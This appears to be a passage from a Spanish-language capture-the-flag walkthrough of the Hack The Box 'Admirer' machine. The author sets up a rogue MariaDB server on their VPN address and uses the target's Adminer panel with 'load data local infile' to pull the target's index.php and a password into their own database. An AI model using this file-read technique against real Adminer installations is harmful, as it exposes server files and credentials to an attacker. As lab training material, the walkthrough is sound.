 A continuación, podemos crear una base de datos y un usuario con menos privilegios que se puede usar para conectarse a ella de forma remota. Tenga en cuenta que especificamos backup@10.129.8.174 ya que backup@localhost sería un usuario diferente y no podría conectarse desde 10.129.8.174

```sql
CREATE DATABASE backup; USE backup; CREATE TABLE backup (name VARCHAR(2000));
CREATE USER 'backup'@'10.129.8.174' IDENTIFIED BY '<YOUR PASSWORD>';
GRANT ALL PRIVILEGES ON backup.* TO 'backup'@'10.129.8.174';
```
Luego, agregue una excepción en la política de firewall para permitir conexiones desde 10.10.10.187 al puerto 3306 localmente. Esto es fuera de MariaDB.
```python
ufw allow from 10.10.10.187 to any port 3306
```

Ahora necesitamos configurar MariaDB para enlazar con nuestra dirección VPN tun0. Ejecute el siguiente comando para identificar los archivos de configuración de MySQL.

```python
mysqld --help --verbose | less
```

El archivo /etc/mysql/my.cnf incluye archivos de configuración en el directorio /etc/mysql/mariadb.conf.d/ .
Este contiene el archivo de configuración del servidor 50-server.cnf.

![Desktop View](/assets/img/Admirer/Pasted image 20221101182433.png){: width="972" height="589" }

Cambie el valor de la dirección de enlace a su ==dirección IP tun0 con:==
```python
sudo pico /etc/mysql/mariadb.conf.d/50-server.cnf  
```


![Desktop View](/assets/img/Admirer/Pasted image 20221101182918.png){: width="972" height="589" }

Reinicie el servidor MariaDB y verifique que el servicio esté escuchando en la dirección IP correcta:
```python
systemctl restart mariadb
netstat -pano | less
```

Y con eso ya podemos hacer login en adminer con las credenciales que hemos determinado y nuestra tun0.

Regresdando a MariaDB creamos una tabla con una columna:
```sql
create table data (output varchar(1024));
```

Como hemos creado una tabla, lo siguiente es desde el navegador, tener seleccionada la base de datos, y pinchar a la izquierda en Comando SQL. Y ahi escribimos lo siguiente:
```sql
load data local infile "../index.php"  
into table diego.data
```

Con eso demostramos que podemos acceder a los archivos. Y ademas podemos comprobar que la contraseña es distinta que la que teniamos anteriormente de waldo.
